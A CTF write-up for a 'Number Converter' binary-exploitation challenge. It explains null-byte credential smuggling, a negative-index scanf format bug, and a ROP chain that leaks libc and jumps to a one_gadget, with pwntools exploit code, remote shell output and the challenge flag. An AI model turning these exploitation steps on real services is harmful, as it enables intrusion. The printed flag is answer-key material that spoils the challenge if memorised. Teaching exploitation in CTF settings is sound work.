



# Number Converter



File: [number-converter.zip](./number-converter.zip)

## Reconnaissance

We are given a zip file that contains an ELF executable running on a server and the libc used by this executable. With no more information, we can assume the goal here is to get a shell / read the flag on the server by exploiting it.

```
number-converter:  ELF 64-bit LSB executable, x86-64, [...] not stripped
```

The executable is not stripped, this is helpful to reverse engineer it as we can quickly identify relevant symbols.

When running `number-converter`, we are asked for credentials to access the actual number converter. No buffer overflow or obvious issue here.

```
$ ./number-converter 
-= Number converter v0.2 =-
login: admin  
password: password?
Invalid credentials!
```

Before taking a closer look, let's check the protections using `checksec`:



`No canary found` may hint towards a buffer overflow, but `NX enabled` means we will probably need to use ROP if we do exploit one. `No PIE` will also makes things easier by having constant addresses for the program memory.

## "Hacking" the credentials

Decompiling the `check_login` function reveals that the executable makes absolutely no attempt at hiding the credentials.

```C
bool check_login(void)
{
  int cmp;
  cmp = strcmp(username,"admin");
  if ((cmp == 0) && (cmp = strcmp(password,"sup3rus3r"), cmp == 0)) {
    return true;
  }
  return false;
}
```

This looks a bit too easy and pointless... But we will come back to this later.

## The number converter

Once logged in, we have access to a basic number conversion service. We first need to make a choice for the base to convert from and then input the number to convert. We can also choose to exit.

```
-= Number converter v0.2 =-
login: admin
password: sup3rus3r
Login success !

Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> 2
Input number: 20
Converted: 32
```

We can't input a choice larger than 3 and there is no ovious buffer overflow here either.

First, the `read_int` function reads our choice with a secure `fgets` call and converts it to an integer using `atoi`.

```C
int read_int(void)
{
  char[16] buffer;
  fgets(&buffer,15,stdin);
  return atoi(&buffer);
}
```

Then, the input number is read with a secure `scanf` call which uses a different format string depending on our choice.

```C
scanf(formatters[choice-1],&converted);
```

 The three formatters are statically initialized in a `setup` function at the start of execution. Three pointers to the strings are stored in an array in the program memory in `formatters`.

```
gdb-peda$ p &formatters
$1 = (<data variable, no debug info> *) 0x4040e0 <formatters>

gdb-peda$ x/3s (void*)formatters 
0x402004:       "%lu"
0x402008:       "%lx"
0x40200c:       "%lo"
```

## Bad choices

The first issue with this program is located in the choice input. The program correctly checks that our choice is less than four **but fails to check for a negative choice**. Indeed, the `atoi` conversion returns a signed integer.

For example, if our choice is `-1`, the program will try to get the format string for scanf pointed at `formatter[-2]` (= the pointer at memory location `0x4040e0-16=0x4040d0`).

In most cases the `scanf` call will fail if the value there is null, or even crash if it's not null when it tries to dereference it.

```
Input type: 
1. Decimal
2. Hexadecimal
3. Octal
0. Exit
> -1010
atoi(0x7ffe71d79b20, 0x7f46dbda9a43, 0xfbad208b, 0x7ffe71d79b20)                                                       = -1010
Input number: __isoc99_scanf(20, 0x7ffe71d79b60, 0x7ffe71d79b60, 0 <no return ...>
--- SIGSEGV (Segmentation fault) ---
```

How can we exploit this? Well, if we somehow manage to find or store a pointer to a string `"%s"` somewhere before the formatters array, we will be able to use it and effectively call `scanf("%s", &converted)` which is **very not secure**.

## Smuggling %s

What can we use to write the string `"%s"` and a pointer to `"%s"` before the formatters? The `scanf` call will be of no use because it stores its result on the stack. Same issue with the `read_int` function.

The only remaining possibility is the login and password inputs. Lucky for us, they are stored in memory just before the `formatters` array! All we have to do is store our string and pointer in one of these fields and we can trigger a `scanf("%s", &converted)`!

But wait... This will fail the authentication check and won't even let us access the number converter... unless...?

Let's review how our credentials are read and checked.

```C
fgets(username,31,stdin);
fgets(password,31,stdin);
[...]
cmp = strcmp(username,"admin");
```

See the issue here? `fgets` allows us to input null bytes but the string comparison is made with `strcmp` which stops comparing when encountering a null byte.

This means **we can input anything after the login or password followed by a null byte** and still pass the login check.

```bash
$ echo -e "admin\x00smuggling\nsup3rus3r\x00somedata" | ./number-converter
-= Number converter v0.2 =-
login: password: Login success !
```

## Putting things together

We now have a clear way to stack overflow.

First we smuggle the string `"%s"` and a pointer to this string in our username input during the login phase. We can do this because PIE is not enabled so the username address is constant.

```python
e = ELF("./number-converter")
username_addr = e.symbols[b"username"]

username = b"admin" + b"\x00" * 3 # pass username check
username += b"%s" + b"\x00" * 6 # the format string to use in the scanf call. %s to exploit buffer overflow
username += p64(username_addr + 8) # pointer to the format string input
password = b"sup3rus3r"
```

Then we use a carefully chosen negative number (hint: it's -5) to use our `"%s"` string as the formatter for `scanf` to write arbitrary data on the stack (stack overflow).

```python
fake_choice = "-5" # leads to our pointer to "%s"
p.recvuntil("> ")
p.sendline(fake_choice)
p.recvuntil("Input number:")
p.sendline("A" * 100)
```

Finally, we use the choice 0 which exits main with a `ret` instruction and... Success!



## From stack overflow to shell

We can now use the usual methods to get a shell from our stack overflow.

Since Partial RELRO is enabled, libc base is randomized. We can first leak the puts address and substract the puts offset to get the base. This is done with a simple **ROP chain** that prints the value of `puts` in the Global Offset Table, then returns to start of `main` for a second stage.

```python
puts_got = e.got[b"puts"]
puts_addr = e.symbols[b"puts"]
main_addr = e.symbols[b"main"]
pop_rdi = 0x401583 # pop rdi; ret
ropchain = p64(pop_rdi) + p64(puts_got) + p64(puts_addr) + p64(main_addr)
```

After returning to main, we exploit a second stack overflow in the same way and this time return to a one_gadget in libc that provides us a shell.

```python
libc = ELF("./libc-number-converter.so.6")
puts_offset = libc.symbols[b"puts"]
#0xe3b31 execve("/bin/sh", r15, rdx)
#constraints:
#  [r15] == NULL || r15 == NULL
#  [rdx] == NULL || rdx == NULL
one_gadget_offset = 0xe3b31
jump_address = puts_leak - puts_offset + one_gadget_offset
```

Finally we get the flag for this well thought-out challenge tagged "easy" :)

```
$ python exploit.py 
[+] Opening connection to ctf10k.root-me.org on port 5006: Done
puts leak 0x7fdc73457420
[*] Switching to interactive mode
$ cat flag.txt
RM{sc4nf_f0rm4t_str1ng_101}
```

You can find the source code for the full exploit [here](./exploit.py).
